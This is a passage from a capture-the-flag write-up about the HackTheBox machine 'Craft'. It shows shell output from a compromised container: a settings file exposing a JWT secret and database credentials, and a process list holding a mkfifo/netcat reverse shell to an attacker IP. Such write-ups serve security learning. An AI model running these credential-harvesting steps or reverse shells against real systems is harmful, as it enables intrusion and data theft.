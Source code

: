     
    
    /opt/app # ls
    app.py     craft_api  dbtest.py  tests
    

`settings.py` is there, which gives me creds to the database, as well as the
API key for signing JWTs:

    
    
    /opt/app/craft_api # ls
    __init__.py  __pycache__  api          database     settings.py
    /opt/app/craft_api # cat settings.py 
    # Flask settings
    FLASK_SERVER_NAME = 'api.craft.htb'
    FLASK_DEBUG = False  # Do not use debug mode in production
    
    # Flask-Restplus settings
    RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
    RESTPLUS_VALIDATE = True
    RESTPLUS_MASK_SWAGGER = False
    RESTPLUS_ERROR_404_HELP = False
    CRAFT_API_SECRET = 'hz66OCkDtv8G6D'
    
    # database
    MYSQL_DATABASE_USER = 'craft'
    MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
    MYSQL_DATABASE_DB = 'craft'
    MYSQL_DATABASE_HOST = 'db'
    SQLALCHEMY_TRACK_MODIFICATIONS = False
    

There are no home dirs, and `/root` is empty. Besides stuff I started, the
process list is basically `python` running the api app:

    
    
    ~ # ps auxww
    PID   USER     TIME  COMMAND
        1 root      8:57 python ./app.py
       71 root      0:00 sh -c rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|n
       74 root      0:00 cat /tmp/f
       75 root      0:00 /bin/sh -i
       76 root      0:00 nc 10.10.14.8 443
     7186 root      0:00 python -c import pty;pty.spawn("sh")
     7187 root      0:00 sh
     7204 root      0:00 ps auxww
    12925 root      0:00 [sh]
    13251 root      0:01 [GQzvn]
    13256 root      0:00 [ping]
    13275 root      0:00 [GCpGS]
    13290 root      0:01 [vvQnJ]
    13295 root      0:00 [sh]
    13308 root      0:00 [ash]
    13388 root      0:00 [ibOSe]
    